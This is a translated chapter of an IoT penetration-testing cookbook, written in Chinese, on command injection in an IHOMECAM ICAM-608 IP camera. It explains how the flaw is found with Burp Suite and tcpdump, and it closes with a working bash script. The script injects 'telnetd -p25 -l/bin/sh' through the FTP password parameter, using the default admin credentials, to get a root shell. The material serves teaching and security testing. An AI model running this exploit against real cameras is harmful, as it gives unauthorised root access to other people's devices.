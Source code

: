 ## 4.5 利用命令注入
在嵌入式系统中，操作系统命令注入是一个常见的漏洞，常常是由固件开发构建中为了执行OS命令而遗留的web接口和debug页面。用户通过在web接口的服务参数中提供命令来执行OS命令。一个动态设置且未正确校验的参数容易受到利用漏洞的影响。利用可以执行OS命令的能力，攻击者可以上传恶意固件，改变配置，获取设备的永久访问权，获取密码，攻击网络中的其他设备，或者甚至锁住设备的合法用户使用。本章中，我们将展示如何利用命令注入来获取设备的shell访问权限。

### 4.5.1 Getting ready

本节中，我们将使用tcpdump，Burp Suite, 和一个脆弱的IHOMECAM ICAM-608 IP 相机.Tcpdump 默认被安装在类Unix系统中，但是Wirewhark也可以用于观察包。

### 4.5.2 How to do it...

在嵌入式web应用中找可以命令注入的页面是非常重要的。我们想要第一个检测的web应用页面是使用系统命令的诊断页，如ping或者traceroute，也使用守护进程的配置设置页，例如SMB、PPTP或者FTP。如果我们已经获取固件或者目标设备的命令行访问权，最好静态分析设备执行的易受攻击的脚步和函数，并通过动态分析验证发现的潜在问题：

<br>&emsp;&emsp;&emsp;1. 我们观察一下我们的目标IP相机的配置菜单设置，以找到易受攻击的页面：

![](../img/4-5/4-5-2-1.png)

<br>&emsp;&emsp;&emsp;2. 我们没有几个页面可以选择，但是我们确实看到了邮箱服务和FTP服务设置页面。这些页面可能被注入命令到操作系统执行。我们首先测试FTP服务并尝试通过Burp Suite用系统命令来操作参数的值：

![](../img/4-5/4-5-2-2.png)

<br>&emsp;&emsp;&emsp;3. 当尝试在pwd参数中发送payload（ping%2012.168.1.184）看起来似乎被删除了一个字符，如下图所示：

![](../img/4-5/4-5-2-3.png)

<br>&emsp;&emsp;&emsp;4. 使用一个像ping这样的基本指令到我们的目标计算机，说明：我们的指令已经成功执行了。为了观察ping是否以及执行，设置tcpdump来监听来自目标IP相机的ICMP包，使用以下指令：

![](../img/4-5/4-5-2-4.png)

<br>&emsp;&emsp;&emsp;5. 使用Burp Suite的Repeater，我们可以改变payload的值，并通过客户端检查是否执行。使用下面的请求，我们可以看到一样接受了我们的改变并且需要基于响应刷新ftp.htm页面：

![](../img/4-5/4-5-2-5.png)

<br>&emsp;&emsp;&emsp;6. 刷新ftp.htm页面之后，我们观察被发送到我们主机的ICMP包：

![](../img/4-5/4-5-2-6.png)


<br>&emsp;&emsp;&emsp;7. 现在我们知道pwd参数容易被命令注入利用，我们的下一个目标是获取目标设备的shell访问权限，根据FTP的使用，我们知道IP相机包含遗留守护进程，机会是Telnet也被使用了。然后，我们将执行启动Telnet，端口为25，并且使用下面的payload，不需要用户名密码进入shell：

![](../img/4-5/4-5-2-7.png)

<br>&emsp;&emsp;&emsp;8. 我们也知道ftp.htm页面需要刷新来保存设置，但是查看页面源码，它是调用一个称为ftptest.cgi的CGI接口执行我们的payload，下面是ftp.htm页面中执行我们的payload的源码片段：

![](../img/4-5/4-5-2-8.png)

<br>&emsp;&emsp;&emsp;9. 接下来，我们可以使用下面的GET请求直接调用ftptest.cgi来保存设置：
![](../img/4-5/4-5-2-9.png)

<br>&emsp;&emsp;&emsp;10. Telnet运行在端口25上，并给我们一个root shell：

![](../img/4-5/4-5-2-10.png)

<br>&emsp;&emsp;&emsp;11. 在shell获取到之后，在设备的局域网中有许多种方法可以用来完成后利用操作。后利用技术本节不介绍；然而，我们可以使用以下的bash脚步轻松地完成我们的命令注入获取访问权限：

```shell
#!/bin/sh
            wget -q'-
            'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&l
            oginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -
            l/bin/sh)&dir=/&mode=PORT&upload_interval=0'
            wget -qO-
            'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=ad
            min&loginpas=admin'
            telnet 192.168.1.177 25
```

在本节中，我们学习了在IHOMECAM ICAM-608相机上，命令注入的发现和利用。我们能够获取shell访问，并创建脚步自动完成命令注入利用。
### 4.5.3 See also

* 为了学习更多的命令注入发现和预防技术，可以参考OWASP的命令注入Wiki页面([https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)), 也可以在OWASP的嵌入式应用安全项目([https://www.owasp.org/index.php/OWASP_Embedded_Application_Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security))
